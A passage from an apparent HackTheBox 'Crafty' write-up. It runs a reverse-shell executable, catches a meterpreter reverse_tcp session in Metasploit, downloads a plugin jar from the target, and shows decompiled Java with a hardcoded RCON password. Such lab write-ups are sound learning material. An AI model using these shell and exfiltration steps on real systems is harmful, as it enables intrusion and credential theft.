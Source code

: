```powershell
02/16/2024  05:08 PM    <DIR>          ..
02/16/2024  05:08 PM             7,168 revshell.exe
               1 File(s)          7,168 bytes
               2 Dir(s)   2,872,033,280 bytes free

c:\Users\svc_minecraft\Documents>revshell.exe
revshell.exe
```

```bash
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8888
LPORT => 8888
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.14.3
LHOST => 10.10.14.3
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.14.3:8888 
[*] Sending stage (200774 bytes) to 10.10.11.249
[*] Meterpreter session 1 opened (10.10.14.3:8888 -> 10.10.11.249:49702) at 2024-02-16 19:08:31 -0600

(Meterpreter 1)(c:\Users\svc_minecraft\Documents) > 
```

```meterpreter
(Meterpreter 1)(c:\Users\svc_minecraft\server\plugins) > ls
Listing: c:\Users\svc_minecraft\server\plugins
==============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  9996  fil   2023-10-27 16:48:53 -0500  playercounter-1.0-SNAPSHOT.jar

(Meterpreter 1)(c:\Users\svc_minecraft\server\plugins) > download playercounter-1.0-SNAPSHOT.jar 
[*] Downloading: playercounter-1.0-SNAPSHOT.jar -> /home/raccoon/_hacking/HackTheBox/Active/Crafty/playercounter-1.0-SNAPSHOT.jar
[*] Downloaded 9.76 KiB of 9.76 KiB (100.0%): playercounter-1.0-SNAPSHOT.jar -> /home/raccoon/_hacking/HackTheBox/Active/Crafty/playercounter-1.0-SNAPSHOT.jar
[*] download   : playercounter-1.0-SNAPSHOT.jar -> /home/raccoon/_hacking/HackTheBox/Active/Crafty/playercounter-1.0-SNAPSHOT.jar
```

Non-standard playercounter plugin. jd-GUI can be used to decompile java and specifically in this case jar files. The contents of Playercounter.class within the plugin jar are as follows:

```java
package htb.crafty.playercounter;  
  
import java.io.IOException;  
import java.io.PrintWriter;  
import net.kronos.rkon.core.Rcon;  
import net.kronos.rkon.core.ex.AuthenticationException;  
import org.bukkit.plugin.java.JavaPlugin;  
  
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);  
    }   
```